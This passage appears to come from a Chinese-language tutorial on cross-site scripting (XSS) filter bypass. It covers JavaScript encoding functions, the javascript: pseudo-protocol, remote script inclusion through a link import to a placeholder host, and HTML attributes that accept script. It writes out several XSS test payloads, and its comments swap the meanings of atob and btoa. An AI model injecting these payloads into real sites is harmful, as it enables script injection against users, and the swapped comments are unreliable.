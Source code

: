 使用：escape(string)
示例：
document.write(escape("Need tips? Visit W3School!"));

<hr/>
<h3>7.4、编码四：**base64编码**</h3>
使得二进制数据在解释成 radix-64 的表现形式后能够用 ASCII 字符串的格式表示出来
JavaScript 中，有两个函数被分别用来处理解码和编码 **base64** 字符串
atob() //ASCII to Base64
btoa() //Base64 to ASCII

示例：
var str = "xxx";
var enc = window.btoa(str);
var dec = window.atob(enc);


### 7.2、编码二：encodeURI()

---


### 7.4、编码四：**base64编码**

---


## 八、js

> 
<h3>8.1、js伪协议</h3>
形式：javascript:[代码]
示例：&lt;table background="javascript:alert(1)"&gt;&lt;/table&gt;
支持伪协议的属性有：href,lowsrc,bgsound,background,action,dynsrc
<hr/>
<h3>8.2、js远程包含</h3>
&lt;link rel=import href="http://xxx/a.js"&gt;


### 8.2、js远程包含

---


## 九、HTML标签属性

> 
<h3>9.1、方法一：利用HTML的标签</h3>
通常HTML标记中的属性都支持javascript:[code]伪协议的形式
并非所有浏览器都支持,并非所有的属性值都能产生xss，可以使用下面的属性值来测试 
href=、src=、lowsrc=、bgsound=、background=、value=、action=、dynsrc=
示例：
&lt;table background="javascript:alert(/xss/)"&gt;&lt;/table&gt;
&lt;img src="javascript:alert('xss');"&gt;&lt;/img&gt;
<hr/>
